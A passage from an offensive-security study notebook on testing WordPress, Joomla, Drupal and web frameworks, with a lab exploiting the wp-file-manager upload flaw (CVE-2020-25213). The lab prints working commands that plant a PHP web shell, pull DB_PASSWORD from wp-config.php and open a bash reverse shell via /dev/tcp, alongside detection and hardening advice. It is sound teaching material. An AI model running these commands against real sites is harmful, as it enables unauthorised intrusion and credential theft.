WordPress Plugin File Manager 6.9 - RCE                  | php/webapps/49185.py
--------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

### Vetting an exploit before you run it

Public PoCs are not to be trusted blindly. Before executing anything against a target — especially a live bug-bounty asset — read the code:

1. **Read the whole script.** `searchsploit -x php/webapps/49178.py`. Understand what request it sends and what it changes on the target.
2. **Check for destructive actions.** Does it *delete* files, drop tables, add a persistent backdoor user, or leave a shell world-accessible? A "poc" that plants a public web shell on someone else's production box is reckless and possibly illegal.
3. **Check the affected version range** against what you fingerprinted — running a 6.0–6.8 exploit against 6.9 just makes noise.
4. **Look for obfuscation / phone-home.** Some "exploits" on the internet are backdoored to compromise the *attacker*. Beware base64 blobs, unexplained network calls to third-party hosts, and `eval` of remote content.
5. **Prefer a non-destructive check first.** Most good exploits offer a "check" mode or can be trivially modified to fetch a harmless proof (e.g. read `wp-config.php` or run `id`) instead of dropping a shell.

> **Scope discipline:** on bug bounty, the safest demonstration of an RCE is often a single benign command (`id`, `hostname`, `cat /etc/hostname`) or reading a non-sensitive marker file — enough to prove impact without exfiltrating data, pivoting, or persisting. Document that restraint in your report; programs reward it.

### Version-range logic — the check you must always do

The number-one false positive in CMS testing is flagging a vuln whose fix *was* applied. WordPress plugins can be patched without changing the folder name, and backported fixes exist. Always confirm:

- The detected version falls **inside** the vulnerable range **and below** the fixed-in version.
- Where possible, confirm the *behaviour*, not just the banner (send the actual vulnerable request in a safe form). A `readme.txt` might say 6.8 while the site auto-updated the vulnerable file. Behavioural confirmation beats banner-matching every time.

---

## Part 9: Hands-On Lab — WordPress File Manager Plugin to Web Shell

This is a fully worked, reproducible lab against an intentionally vulnerable WordPress install running the **File Manager (wp-file-manager) 6.8** plugin, vulnerable to **CVE-2020-25213** — unauthenticated arbitrary file upload leading to RCE. Do this **only** in your own lab (a local VM), never against a system you do not own or are not authorised to test.

### Lab setup

Spin up a deliberately vulnerable target. Options: a Docker WordPress with the vulnerable plugin, the TryHackMe "Blog" room, or a local VM. Here we assume a local target at `http://10.10.10.50`.

```bash
# Quick throwaway WordPress via Docker (then install wp-file-manager 6.8 in wp-admin)
docker run --name wp-lab -p 80:80 -e WORDPRESS_DB_HOST=db \
  -e WORDPRESS_DB_PASSWORD=labpass -d wordpress:6.2
```

### Step 1 — Fingerprint and enumerate

```bash
whatweb -a 3 http://10.10.10.50
wpscan --url http://10.10.10.50 --enumerate vp,ap,u --plugins-detection aggressive \
  --api-token YOUR_TOKEN -o wpscan-lab.txt
```

Relevant output:

```
[+] WordPress version 6.2 identified
[+] wp-file-manager
 | Version: 6.8 (100% confidence)
 | [!] Title: File Manager 6.0-6.8 - Unauthenticated Arbitrary File Upload (RCE)
 |     Fixed in: 6.9
 |     References: CVE-2020-25213, EDB-49178
[i] User(s) Identified: admin
```

Confirmed: WordPress 6.2, wp-file-manager **6.8** (in the vulnerable 6.0–6.8 range, fixed in 6.9). Green light.

### Step 2 — Understand the bug

File Manager bundles the **elFinder** library. The vulnerable versions left `elFinder`'s connector (`elFinder.min.js` → `php/connector.minimal.php`) reachable without authentication at:

```
/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php
```

elFinder's `upload` command accepts a file and writes it into `lib/files/`. Because there is no auth check and no extension filtering on the connector, an attacker uploads a `.php` file directly into a web-served directory. That is the entire vulnerability: an unauthenticated file-upload primitive pointed at a web-executable path.



### Step 3 — Confirm the connector is reachable

```bash
curl -s "http://10.10.10.50/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php" \
  | head -c 200
```

A JSON error like `{"error":["errUnknownCmd"]}` confirms the endpoint is alive and processing commands (rather than 404/403) — a good pre-exploit sanity check.

### Step 4 — Upload a benign proof first (non-destructive)

Before dropping a full shell, prove upload works with a harmless PHP marker:

```bash
# Create a tiny, benign proof file
echo '<?php echo "poc-".gethostname(); ?>' > poc.php

curl -s "http://10.10.10.50/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php" \
  -F "reqid=17264b1b1a9c2" \
  -F "cmd=upload" \
  -F "target=l1_Lw" \
  -F "upload[]=@poc.php" | jq .
```

Realistic response:

```json
{
  "added": [
    {
      "name": "poc.php",
      "hash": "l1_cG9jLnBocA",
      "mime": "text/x-php",
      "url": "/wp-content/plugins/wp-file-manager/lib/files/poc.php"
    }
  ]
}
```

Fetch it:

```bash
curl -s "http://10.10.10.50/wp-content/plugins/wp-file-manager/lib/files/poc.php"
# → poc-wp-lab-host
```

PHP executed. Impact proven with zero damage — this is the shot you put in a bug report.

### Step 5 — (Lab only) escalate to an interactive shell

In your own lab you can go further to understand full impact. Upload a minimal command-runner:

```bash
echo '<?php system($_GET["c"]); ?>' > cmd.php
curl -s "http://10.10.10.50/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php" \
  -F "cmd=upload" -F "target=l1_Lw" -F "upload[]=@cmd.php" >/dev/null

curl -s "http://10.10.10.50/wp-content/plugins/wp-file-manager/lib/files/cmd.php?c=id"
# uid=33(www-data) gid=33(www-data) groups=33(www-data)

curl -s "http://10.10.10.50/wp-content/plugins/wp-file-manager/lib/files/cmd.php?c=cat+/var/www/html/wp-config.php" \
  | grep DB_PASSWORD
```

Then upgrade to a reverse shell (start a listener, trigger a connect-back):

```bash
# Attacker: listener
nc -lvnp 4444

# Trigger a bash reverse shell via the uploaded runner (URL-encoded)
curl -s "http://10.10.10.50/wp-content/plugins/wp-file-manager/lib/files/cmd.php?c=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.2/4444+0>%261'"
```

Listener catches:

```
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.50] 51234
www-data@wp-lab:/var/www/html/wp-content/plugins/wp-file-manager/lib/files$ id
uid=33(www-data) gid=33(www-data)
```

### Step 6 — Same bug via Metasploit (teaching the module workflow)

Metasploit ships a module for this exact CVE. Using it teaches the general "known-CMS-vuln via Metasploit" pattern you will reuse constantly.

```bash
msfconsole -q
```

```
msf6 > search wp_file_manager

Matching Modules
================
   #  Name                                                      Rank       Description
   -  ----                                                      ----       -----------
   0  exploit/multi/http/wp_file_manager_rce                    normal     WordPress File Manager Unauthenticated RCE

msf6 > use exploit/multi/http/wp_file_manager_rce
msf6 exploit(...) > set RHOSTS 10.10.10.50
msf6 exploit(...) > set RPORT 80
msf6 exploit(...) > set LHOST 10.10.14.2
msf6 exploit(...) > check
[+] 10.10.10.50:80 - The target is vulnerable.
msf6 exploit(...) > run

[*] Started reverse TCP handler on 10.10.14.2:4444
[+] Uploaded payload to /wp-content/plugins/wp-file-manager/lib/files/xxxx.php
[*] Meterpreter session 1 opened
meterpreter > getuid
Server username: www-data
```

**Always run `check` first.** A good Metasploit module verifies the version/behaviour before firing — the same version-range discipline from Part 8, automated. `check` returning "vulnerable" is your safe go/no-go.

### Step 7 — Clean up (mandatory)

You uploaded files. Remove every artefact you created — `poc.php`, `cmd.php`, any Metasploit payload — and note them in your report so the owner can verify. Leaving a live web shell on a target is a serious breach of ethics (and, on a live engagement, of contract and law).

```bash
# Via the same connector's rm command, or manually in the lab:
rm /var/www/html/wp-content/plugins/wp-file-manager/lib/files/{poc,cmd}.php
```

---

## Part 10: Framework-Level Testing Beyond CMSes

Not every target is WordPress/Joomla/Drupal. Custom apps sit on frameworks whose *own* defaults and debug features are frequent findings. The fingerprint-then-known-issue loop still applies.

### Common framework fingerprints and their classic bugs

| Framework | Fingerprint | Classic finding |
|-----------|-------------|-----------------|
| **Laravel** (PHP) | `laravel_session` cookie, `X-Powered-By`, `/telescope` | **Debug mode** (`APP_DEBUG=true`) → Ignition RCE (CVE-2021-3129); leaked `.env`; `/telescope` data exposure |
| **Django** (Python) | `csrftoken` cookie, `X-Frame-Options` defaults | **DEBUG=True** stack-trace pages leaking settings/env; admin at `/admin/` |
| **Rails** (Ruby) | `_session_id` cookie, `X-Runtime` header | Old secret-key deserialization RCE; `/rails/info`; mass-assignment |
| **Spring** (Java) | `JSESSIONID`, whitelabel error page | **Actuator** endpoints (`/actuator/env`, `/heapdump`) leaking secrets; Spring4Shell (CVE-2022-22965) |
| **Express** (Node) | `X-Powered-By: Express` | Prototype-pollution libs; exposed source maps |
| **Flask** (Python) | Werkzeug debugger `/console` | **SSTI** in Jinja2; the interactive debugger PIN-bypass → RCE |

### The `.env` and debug-page pattern

The single highest-yield framework check: request the environment file and common debug/console paths.

```bash
for p in .env .git/config config.php.bak /telescope /actuator/env \
         /debug/default/view /_profiler /server-status; do
  echo "== $p =="; curl -s -o /dev/null -w "%{http_code}\n" "https://target.example/$p"
done
```

A `200` on `/.env` frequently leaks `APP_KEY`, DB creds, mail creds, and third-party API tokens — a critical finding with zero exploitation required. A reachable Spring `/actuator/heapdump` can be mined for session tokens and secrets. These are *known-issue* checks in the same spirit as CMS CVE mapping: the framework has a well-documented dangerous default, and you are checking whether it was left on.

**SSTI quick-probe (framework template engines):** inject `${7*7}`, `{{7*7}}`, `<%= 7*7 %>` into reflected inputs; a rendered `49` signals Server-Side Template Injection, which in Jinja2/Twig/Freemarker often chains to RCE (covered depth-first in the injection notebook's SSTI chapter — here it is one more framework fingerprint tell).

---

## Part 11: Automating CMS Testing at Scale with Nuclei

When you are hunting across many hosts (a wildcard bug-bounty scope, an org's whole estate), you want templated, version-aware checks rather than hand-running WPScan per host. **Nuclei** is the standard.

### Nuclei from scratch (for CMS work)

**What it is:** `nuclei` (ProjectDiscovery) is a fast, YAML-template-driven vulnerability scanner. Its community template library includes thousands of CMS fingerprints, exposure checks (readme, config backups, debug pages), and specific CVE checks for WordPress plugins, Joomla components, and Drupal.

**Install and update templates:**

```bash
go install -v github.com/projectdiscovery/nuclei/v3/cmd/nuclei@latest
nuclei -update-templates
```

**CMS-focused runs:**

```bash
# Fingerprint + tech detection across a host list
nuclei -l hosts.txt -t http/technologies/ -o tech.txt

# Run only WordPress plugin CVE templates
nuclei -l hosts.txt -tags wordpress,wp-plugin -severity high,critical

# Exposure/config-leak checks (readme, .env, config backups)
nuclei -l hosts.txt -t http/exposures/ -t http/misconfiguration/

# A specific CVE template
nuclei -u https://target.example -id CVE-2020-25213
```

| Flag | Meaning |
|------|---------|
| `-l FILE` / `-u URL` | List of hosts / single URL |
| `-t PATH` | Template file or directory |
| `-tags` | Filter templates by tag (`wordpress`, `joomla`, `drupal`, `cve`) |
| `-severity` | Filter by severity (`critical,high`) |
| `-id` | Run a template by its ID |
| `-rl N` | Rate limit (requests/sec) — be polite |
| `-o FILE` | Output results |

**Realistic output:**

```
[CVE-2020-25213] [http] [critical] http://target.example/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php
[wordpress-detect] [http] [info] http://target.example ["6.2.1"]
[wp-xmlrpc] [http] [info] http://target.example/xmlrpc.php
[.env-detection] [http] [medium] http://staging.target.example/.env
```

**Bug-bounty workflow:** pipe `subfinder`→`httpx`→`nuclei -tags wordpress,exposures` to sweep an entire scope for outdated-CMS and config-leak issues, then hand-validate every "critical" before reporting. Nuclei finds candidates fast; humans confirm impact and stay in scope.



---

## Part 12: Detection & Defense Angle

Everything above is offense. This consolidated section is what a defender or blue-teamer does about it — and what you write in the "remediation" half of a bug report.

### Detecting CMS attacks

CMS attacks have loud, recognisable signatures in logs and telemetry:

- **Enumeration bursts:** hundreds of 404s to `/wp-content/plugins/*/readme.txt`, `/administrator/components/*`, or `/?author=N` sequences in seconds = WPScan/JoomScan/droopescan. Alert on high 404 rates from a single source and on requests to `readme.txt`/`CHANGELOG.txt`/`.env`.
- **xmlrpc abuse:** repeated `POST /xmlrpc.php` with `system.multicall` bodies, or `pingback.ping` to external URLs = brute amplification or SSRF. Log request bodies for `xmlrpc.php`.
- **Upload-to-web-shell:** a `POST` that writes a `.php` into `wp-content/uploads/` or a plugin's `lib/files/`, immediately followed by a `GET` to that new file with query params, is the classic upload-RCE fingerprint. File-integrity monitoring on `wp-content/` catches new PHP files.
- **Known-exploit request shapes:** Drupalgeddon2's `element_parents=account/mail/%23value` and `#post_render` array keys are trivially signatureable; File Manager's `connector.minimal.php?cmd=upload` likewise.

| Signal | Where to watch | Rule of thumb |
|--------|----------------|---------------|
| Plugin/theme path 404 storm | Web access logs | >50 404s/min from one IP → scanner |
| `readme.html`/`CHANGELOG.txt`/`.env` requests | Web logs / WAF | Alert + block; these are never legit for users |
| New `.php` in uploads/plugin dirs | FIM (AIDE, Wordfence, Tripwire) | Any new PHP under `wp-content/uploads` = incident |
| `POST /xmlrpc.php` volume | Web logs | Disable xmlrpc if unused |
| Reverse-shell egress | EDR / netflow | `www-data` making outbound TCP to odd ports |

### Defending a CMS (the remediation checklist you cite in reports)

1. **Patch relentlessly.** 90%+ of CMS compromise is *known* vulns in unpatched core/plugins. Enable auto-updates for core and plugins; subscribe to plugin advisories (Wordfence, WPScan, Drupal SA-CORE, Joomla announcements).
2. **Minimise the plugin surface.** Every plugin is attack surface. Remove unused and abandoned plugins (no update in 12+ months = liability). Prefer well-maintained, widely-reviewed plugins.
3. **Kill the easy leaks.** Delete `readme.html`/`CHANGELOG.txt`, disable directory listing, block access to `wp-config.php`/`configuration.php` backups, restrict `/wp-json/wp/v2/users` to authenticated requests, and disable `xmlrpc.php` if unused.
4. **Harden uploads.** Configure the web server to *not execute PHP* in `wp-content/uploads/` (and any user-writable dir). This single control neutralises most upload-to-RCE chains even when the upload bug exists:
   ```apache
   # In wp-content/uploads/.htaccess (or nginx equivalent)
   <FilesMatch "\.(php|phtml|php3|php4|php5|phar)$">
     Require all denied
   </FilesMatch>
   ```
5. **Least privilege + strong auth.** Enforce 2FA on admin accounts, use unique strong passwords (defeats WPScan brute-force), rename/limit `/wp-admin` exposure, and lock out or rate-limit login attempts.
6. **WAF + virtual patching.** A WAF (Wordfence, ModSecurity + OWASP CRS, Cloudflare) can virtually-patch a plugin CVE the day it drops, buying time before the real update — critical given the hours-to-mass-exploitation window seen with Drupalgeddon2.
7. **Monitor file integrity.** Any new/modified PHP under `wp-content/` should page someone. Wordfence, `wp-cli`'s `wp core verify-checksums`, and AIDE all do this.

```bash
# Blue-team quick check: verify core files match official checksums
wp core verify-checksums
wp plugin verify-checksums --all
```

A mismatch here means a core/plugin file was modified — often a planted backdoor — and is a high-signal indicator of compromise.

---

## Part 13: Ethics, Scope, and Staying Legal

CMS testing is unusually easy to take too far, because working public exploits are one `searchsploit -m` away. Discipline matters:

- **Authorisation first.** Only test systems you own or have explicit written authorisation to test (a signed engagement, or an in-scope bug-bounty asset per the program's policy). Fingerprinting someone's public site is generally low-risk, but *running an exploit* against it without authorisation is a crime in most jurisdictions (CFAA, Computer Misuse Act, etc.).
- **Read the program scope every time.** Many bug-bounty programs exclude "outdated software without a working, in-scope PoC," exclude WordPress *core* while accepting *plugin* bugs, and **prohibit** brute-forcing, DoS, and destructive actions. A version banner is usually *informational*; a working exploit chain is *critical* — but only if in scope.
- **Non-destructive proof.** Prove impact with the smallest possible action: `id`/`hostname` for RCE, reading a benign marker for file-read, a single test account for auth bypass. Never dump customer data, plant persistent backdoors, or pivot beyond the authorised host.
- **Clean up.** Remove every file, account, and artefact you create, and list them in your report.
- **Report responsibly.** Clear title, affected version, reproduction steps, evidence (request/response, screenshots), CVSS, and remediation (patch to version X, remove plugin, add the uploads `.htaccess`).

Malware, mass-exploitation tooling, and persistence techniques stay **conceptual and lab-scoped** in these notes. The goal is to find and fix these bugs, not to weaponise them against non-consenting targets.

---

## Final Revision / Summary

- A **CMS** is prebuilt, open-source, mass-deployed web software; that makes it a target-rich environment because version strings leak, source is auditable (patch-diffing), and the **plugin/extension ecosystem** — not the core — holds most exploitable bugs.
- The universal loop is **Detect → Fingerprint → Enumerate → Map to CVE → Validate → Exploit → Report**. Tools change per platform; phases never do.
- **Fingerprint** passively first (meta generator, asset paths, cookies, headers, `readme.html`/`CHANGELOG.txt`) with `whatweb`/CMSeeK; escalate to platform scanners.
- **WPScan** is the WordPress workhorse: `--enumerate vp,ap,u`, `--plugins-detection aggressive`, and an **API token** for vuln data. It also does user enumeration and (lawful) xmlrpc/wp-login brute force.
- The **REST API** (`/wp-json/wp/v2/users`) and **xmlrpc.php** (`system.multicall`, `pingback.ping`) are passive-to-active enumeration and abuse surfaces.
- **JoomScan** (Joomla) and **droopescan** (Drupal, best-in-class) mirror the WPScan workflow; version leaks from `language/en-GB/en-GB.xml` (Joomla) and `CHANGELOG.txt`/droopescan (Drupal).
- **Drupalgeddon2 (CVE-2018-7600)** is the archetype: detect version-below-patched, send one known request, get unauth RCE — patch cadence is the only real defence.
- Turning a version into an exploit: **WPScan DB / Wordfence Intelligence / Exploit-DB (`searchsploit`) / NVD / vendor advisories**, then **vet the PoC** (read it, check destructiveness, confirm version range, prefer a benign check) before running it in scope.
- The worked lab chained **wp-file-manager 6.8 → CVE-2020-25213 → unauthenticated upload → web shell**, first with a benign PoC, then (lab only) a shell, plus the equivalent Metasploit module with a mandatory `check`.
- Beyond CMSes, **frameworks** leak via debug mode, `.env`, Spring Actuator, Flask/Jinja SSTI — the same "known dangerous default" checks.
- **Nuclei** templates scale CMS + exposure checks across whole scopes; humans validate.
- **Defense:** patch, minimise plugins, kill leaks, forbid PHP execution in upload dirs, enforce 2FA/rate-limiting, WAF virtual-patching, and file-integrity monitoring.

---

## Cheat Sheet / Quick Reference

**Fingerprinting**

```bash
whatweb -a 3 https://target.example
python3 cmseek.py -u https://target.example
curl -s https://target.example | grep -i generator
curl -sI https://target.example | grep -iE 'x-generator|x-powered-by|link'
```

**WordPress (WPScan)**

```bash
wpscan --update
wpscan --url https://t --api-token TOKEN                       # baseline + vulns
wpscan --url https://t -e vp,ap,tt,cb,dbe,u1-30 \
       --plugins-detection aggressive --random-user-agent      # deep enum
wpscan --url https://t -e u                                    # users only
wpscan --url https://t -U admin -P rockyou.txt \
       --password-attack xmlrpc                                # lawful brute
curl -s https://t/wp-json/wp/v2/users | jq '.[].slug'          # REST user enum
```

**Joomla / Drupal**

```bash
joomscan --url https://t --enumerate-components
curl -s https://t/language/en-GB/en-GB.xml | grep -i version   # Joomla version
droopescan scan drupal -u https://t
curl -s https://t/CHANGELOG.txt | head -5                      # Drupal 7 version
```

**Version → Exploit**

```bash
searchsploit -u                          # update local Exploit-DB
searchsploit wordpress file manager      # search
searchsploit --cve 2020-25213            # by CVE
searchsploit -x php/webapps/49178.py     # READ before running
searchsploit -m 49178                    # copy locally
```

**Scale**

```bash
nuclei -update-templates
nuclei -l hosts.txt -tags wordpress,joomla,drupal -severity high,critical
nuclei -l hosts.txt -t http/exposures/ -t http/misconfiguration/
```

**Framework known-issue probes**

```bash
for p in .env .git/config /telescope /actuator/env /actuator/heapdump \
         /_profiler /server-status /rails/info; do
  curl -s -o /dev/null -w "$p %{http_code}\n" https://target.example$p; done
```

**Defense one-liners**

```bash
wp core verify-checksums                 # detect modified core files
wp plugin verify-checksums --all
# Deny PHP in uploads (Apache):
printf '<FilesMatch "\\.ph(p[3457]?|t|tml|ar)$">\nRequire all denied\n</FilesMatch>\n' \
  > wp-content/uploads/.htaccess
```

**Common pitfalls**

- Running WPScan against a non-WordPress site (wrong tool → wasted time). Fingerprint first.
- Trusting a `readme.txt` version banner when the site auto-updated the vulnerable file — **confirm behaviour**, not just the banner.
- Running an exploit outside the vulnerable version range (noise, no result). Check the range.
- Executing an unread public PoC — may be destructive or backdoored. **Read it first.**
- Brute-forcing or planting a public web shell on a live/in-scope target — ethics and legal violation; use benign proofs and clean up.
- Reporting a bare version banner as "critical" — most programs mark it informational without a working, in-scope PoC.
- Forgetting `--api-token`, so WPScan shows plugins but no vulnerability data.

---

## Practice Labs & Resources

Train each specific skill from this chapter:

- **TryHackMe — "Blog"**: a WordPress box vulnerable to the exact wp-file-manager (CVE-2020-25213) chain in the lab above — enumerate with WPScan, exploit the upload, get a shell, escalate.
- **TryHackMe — "Wgel CTF" / "Ignite" / "Agent Sudo"**: CMS/framework fingerprinting and known-vuln exploitation practice.
- **TryHackMe — "CMSpit" and "Gallery"**: CMS-specific exploitation (CMS Made Simple, custom CMS) — practises version→CVE mapping and SQLi/upload chains.
- **HackTheBox — "Blocky", "BlogFeeder", "Tenten", "Blunder"**: WordPress/CMS entry vectors (Tenten = WordPress plugin CVE; Blunder = Bludit CMS auth-bypass + upload).
- **HackTheBox — Drupal-based boxes**: practise droopescan → Drupalgeddon → RCE.
- **VulnHub — "Mr-Robot: 1"**: a classic WordPress-centric boot2root — WPScan enumeration, xmlrpc/wp-login brute, plugin exploitation.
- **PortSwigger Web Security Academy — File upload vulnerabilities & SSTI labs**: reinforces the primitives (upload-to-RCE, template injection) that underlie CMS/framework RCEs.
- **DVWA / bWAPP (File Upload modules)**: local, safe practice of the upload-to-web-shell mechanic before doing it against a full CMS.
- **Docker WordPress + a deliberately old plugin**: build your own target (as in the lab) to practise WPScan aggressive enumeration and the Metasploit `wp_file_manager_rce` module end-to-end.

**Reference feeds to bookmark:** WPScan Vulnerability Database (wpscan.com), Wordfence Intelligence (wordfence.com/threat-intel), Exploit-DB (`searchsploit`), Drupal SA-CORE advisories (drupal.org/security), Joomla Security Announcements, and NVD/CVE Details for canonical CVSS and affected-version data.

You now have the full CMS/framework testing loop — detect, fingerprint, enumerate, map to a known vulnerability, vet the exploit, and demonstrate impact safely — plus the tooling (WPScan, JoomScan, droopescan, CMSeeK, searchsploit, Metasploit, Nuclei) to execute it on any of the platforms that run a third of the web. The next chapter continues the APIs & CMS notebook by building on this known-vulnerability tradecraft.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/appsec-api-bugbounty/03-cms-and-framework-testing-wpscan-joomscan-and-known-vuln-exploitation), with comments and the latest edits.*
